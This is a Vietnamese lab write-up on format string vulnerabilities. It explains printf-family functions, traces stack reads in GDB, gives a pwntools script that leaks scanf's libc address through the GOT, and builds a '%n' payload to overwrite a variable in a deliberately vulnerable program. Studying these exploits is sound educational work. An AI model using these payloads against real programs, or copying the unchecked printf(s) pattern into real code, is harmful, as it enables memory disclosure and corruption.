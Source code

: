 # Format string
## Câu 1
### Question
Điền giới thiệu về các hàm trên bảng.

### Answer
| Hàm | Giới thiệu |
|---|---|
| `printf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào và in chuỗi đó ra stdout. |
| `fprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào và in chuỗi đó ra một output stream.|
| `vprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và in chuỗi đó ra stdout.|
| `vfprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và in chuỗi đó ra một output stream.|
| `sprintf` | Tạo một chuỗi từ định dạng và đối số cho trước và xuất chuỗi đó ra một mảng ký tự.|
| `snprintf` | Tạo một chuỗi từ định dạng và đối số cho trước và xuất chuỗi đó ra một mảng ký tự với giới hạn số lượng ký tự được xuất ra.|
| `vsprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và xuất chuỗi đó ra một mảng ký tự.|
| `vsnprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và xuất chuỗi đó ra một mảng ký tự với giới hạn số lượng ký tự được xuất ra.|
| `setproctitle` | Đặt tên cho tiến trình sử dụng format string để tạo chuỗi tên. |
| `syslog` | Tạo log message để truyền vào system logger. Log message được tạo từ format string. |
| `err`, `verr`, `warn`, `vwarn` | Hiển thị error message. Error message được tạo từ format string. |

## Câu 2
### Question
Dùng GDB để debug và nhập giá trị `%3$x`.

### Answer
- Khi tiến trình chạy đến bước `printf(s)`, stack sẽ như sau:  

![image](https://user-images.githubusercontent.com/44528004/143236001-c1c91a66-a374-4262-a79d-3b016fdbe6d2.png)

- Kết quả chạy là:  

![image](https://user-images.githubusercontent.com/44528004/143236049-03b9b3a5-e6cc-451b-8740-806a14286986.png)

- Từ đây ta thấy được rằng `3$` sẽ tương ứng với đối số thứ 3 được truyền vào `printf`. Tuy nhiên, do chúng ta không truyền vào đối số nào cả nên tiến trình sẽ lấy giá trị cách đó 12 bytes ở phía trên của stack. Dựa vào stack bên trên, `0xffffd064` có giá trị `0xffffd070` là đối số 1, `0xffffd068` có giá trị `0xf7fc9410` là đối số 2, và `0xffffd06c` có giá trị `0x0804918d` là đối số 3.
- Vậy nếu `s = %08x.%08x.%08x` thì chương trình sẽ in ra `ffffd070.f7fc9410.0804918d`.
- Và nếu `s = %3$x` thì chương trình sẽ in ra giá trị của đối số thứ 3 là `0804918d`.


## Câu 3
### Question
Dùng GDB để debug và phân t ích tại sao có địa chỉ của `scanf`.

### Answer
- Ban đầu, khi ta truyền vào `AAAA%4$s`, chương trình bị treo vì khi hàm `printf('AAAA%4$s')` được thực thi, chương trình sẽ cố gắng truy xuất vào vùng nhớ `0x41414141` nhằm đọc các ký tự từ địa chỉ này để in ra màn hình. Tuy nhiên, `0x41414141` là vùng nhớ không thể truy xuất được nên chương trình bị treo.
> Specifier `%s` mong đợi đối số truyền vào là địa chỉ bắt đầu của chuỗi ký tự nên `printf` sẽ truy xuất đến vùng địa chỉ này để lấy giá trị.
- Trong trường hợp 4 bytes đầu của payload là địa chỉ của `__isoc99_scanf_got`, vì GOT nằm ở data segment mà data segment thì chương trình có thể truy xuất được nên sẽ không xảy ra lỗi. Bên cạnh đó, entry của `scanf` trên GOT trỏ tới địa chỉ thực của `scanf` trên libc nên ta thành công trong việc truy xuất vào địa chỉ thực của `scanf` trên libc.
- Script:  
```python
from pwn import *


sh = process('./leak')
e = ELF('./leak')

__isoc99_scanf_got = e.got['__isoc99_scanf']
print(hex(__isoc99_scanf_got))

payload = p32(__isoc99_scanf_got) + b'%4$s'
print(payload)

with open('payload.in', 'wb') as f:
    f.write(payload)

sh.sendline(payload)
sh.recvuntil(b'%4$s\n')
print(hex(u32(sh.recv()[4:8])))
sh.interactive()
```
- Trong mốt số trường hợp địa chỉ của `scanf` trong libc có chứa các byte đặc biệt như `0a`, `0b`, `0c`, `00`, ... thì `printf` sẽ terminate việc in chuỗi trên.
- Ví dụ khi chạy script exploit và dùng gdb để debug thì ta thấy rằng địa chỉ thực của `scanf` trên libc hiện tại đang là `0xf7e17300` và khi in ra ở little endian, byte `0x00` sẽ được đưa lên đầu và chuỗi sẽ bị terminate. Việc này dẫn tới việc script không in ra địa chỉ của `scanf` ra màn hình.  

  ![image](https://user-images.githubusercontent.com/44528004/143276062-c255d0e9-046f-4456-b7cf-cb8b6a3f60c3.png)

  ![image](https://user-images.githubusercontent.com/44528004/143276331-27f89422-1423-4ca2-b6d8-7edb4caaa0e8.png)

## Câu 4
Ta có đoạn code sau:
```c
#include <stdio.h>

int a = 123, b = 456;

int main() {
        int c = 789;
        char s[100];
        printf("%p\n", &c);
        scanf("%s", s);
        printf(s);
        if (c == 16) {
                puts("modified c.");
        }
        else if (a == 2) {
                puts("modified a for a small number.");
        }
        else if (b == 0x12345678) {
                puts("modified b for a big number!");
        }
        return 0;
}
```

- Ở đây, mục đích của ta là ghi đè giá trị của `c` thành 16 thì ta cần truyền vào payload có dạng `[overwriten_addr][padding]%[offset]$n`. Cụ thể hơn, payload để khai thác chương trình này sẽ là `addr_c%012d%6$n`.
    - `addr_c` là địa chỉ của biến `c`.
    - `%012d` sẽ khiến đọc 4 bytes tiếp theo trên stack và thêm padding để tạo thành 12 bytes.
    - `%6$n` sẽ đếm tổng số bytes đã đọc được ở thời điểm hiện tại và lưu vào đối số thứ 6. Với đối số thứ 6 này địa chỉ bắt đầu của buffer và đang trỏ tới địa chỉ của biến `c`. Do đó, tổng số bytes đã được đọc bởi format function là 16 sẽ được lưu vào địa chỉ của biến `c` và `c` sẽ bằng 16.

- Kết quả exploit:  

![image](https://user-images.githubusercontent.com/44528004/143288425-b2124f91-79e4-4085-b91d-59aa97a8f282.png)

> Tip: Trong trường hợp địa chỉ muốn ghi đè chứa các byte đặc biệt, ta có thể cân nhắc chuyển địa chỉ ghi đè về cuối payload.
